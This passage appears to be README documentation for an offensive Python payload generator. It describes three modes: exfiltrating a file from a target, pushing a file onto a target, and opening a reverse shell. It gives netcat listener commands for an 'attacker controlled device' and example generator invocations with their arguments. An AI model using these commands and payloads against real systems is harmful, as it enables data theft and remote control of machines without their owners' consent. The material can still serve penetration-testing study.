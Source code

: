 Usage:
Set up two listener shells on an attacker controlled device using nc, one for taking in the file and downloading it to a file like so
	`nc -nlvp PORT > SAVELOCATION`

And one for listening for feedback which the target machine will send a file hash to
	`nc -w CONNECTIONTIMEOUTLENGTH -knlp PORT2 `

The script requires the following arguments to generate the payload:

> -i: ip of the shell listening for the file
> -p: the port used for the shell listening for the file (PORT)
> -li: ip of the shell listening for the hash of the file
> -lp: the port used for the shell listening for the hash (PORT2)
> -f: what file is to be uploaded

#### PG: Downloading files 
A payload for Downloading files to the machine can be made with the “-e download” argument. 

Example Command:
`python3 payloadgenerator.py -e download -li LISTERNERIP1 -lp LISTENERPORT1 -i LISTERNERIP2 -p LISTENERPORT2`

Usage:
Set up two listener shells on an attacker controlled device using nc, one for streaming the file to target device
	`nc -nlvp PORT < test`
And one for listening for feedback which the target machine will report that the file was or couldn’t be downloaded (in future it will also include an md5 hash of the file it downloaded for better validation)
	`nc -w CONNECTIONTIMEOUTLENGTH -knlp PORT2 `

The script requires the following arguments to generate the payload

> -i: ip of the shell sending the file
> -p: the port used for the shell listening for the file (PORT)
> -li: ip of the shell listening for the hash of the file
> -lp: the port used for the shell listening for the hash  (PORT2)
> -f: Where to save file on target device

#### PG: Reverse Shell
Alternatively, see the [php shell tool](#php-shell)

Example:
`python3 payloadgenerator.py -e rshell -li LISTERNERIP1 -lp LISTENERPORT1 -i LISTERNERIP2 -p LISTENERPORT2`

Usage: 
Set up two listener shells on an attacker controlled device using nc, one for taking in the commands
	`nc -w CONNECTIONTIMEOUTLENGTH  -nlvp PORT `

And one for listening for feedback which the target machine will send
	`nc -w CONNECTIONTIMEOUTLENGTH -knlp PORT2 `

The script requires the following arguments to generate the payload:
> -i: ip of the shell listening for the file
> -p: the port used for the shell listening for the file (PORT)
> -li: ip of the shell listening for the hash of the file
> -lp: the port used for the shell listening for the hash (PORT2)

